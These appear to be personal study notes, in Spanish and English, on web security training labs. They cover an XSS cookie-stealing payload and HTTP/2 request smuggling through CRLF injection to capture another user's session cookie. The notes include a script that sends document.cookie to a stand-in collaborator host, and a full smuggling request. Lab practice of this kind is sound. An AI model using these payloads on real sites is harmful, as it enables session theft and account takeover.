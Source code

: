 En exploit server podemos alojar algo como: 

```js
//para la solucion del lab: 
alert(document.cookie)

//para el BSCP
<script>document.location='https://COLLABORATOR.com?c='+document.cookie</script>
```
### LAB: Request Smuggling via CRLF injection `another account` `Si aparecen busquedas recientes`

* Frontend server downgrade HTTP/2 Requests. 
* For this attack we must to use an exclusive request HTTP/2 for smuggling vector and gain access to another `acount` ex: administrator (the victim accesses the home page every 15seg)
Como estamos en HTTP/2 no podemos modificarlo directamente en la request sino que nos vamos al inspector > Request HEADERS → añadimos un nuevo header el cual contendrá nuestro valor con los caracteres CRLF:

![[Pasted image 20250219153327.png]]

```
Foo: bar\r\n
Transfer-Encoding: chunked
```

Y nos queda la request asi: 

![[Pasted image 20250219153356.png]]
Y sería la carga util así:

```js
Foo: bar\r\n
Transfer-Encoding: chunked //-> esto va en el inspector cuando es HTTP/2

0 //-> esto de aqui pa' abajo en la request como tal. 

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 800
Cookie: session=THE-COOKIE-SESSION

search=Testeo-Final4 //el param body search
```

![[Pasted image 20250219153639.png]]

* Podemos mandar un test final ahi mismo en el search por si no nos muestra a la primera la petición contrabandeada. 
* Tomamos la cookie session, la actualizamos y listo tenemos acceso a la cuenta de otro user. 

### LAB: HTTP/2 request splitting via CRLF injection `admin panel`
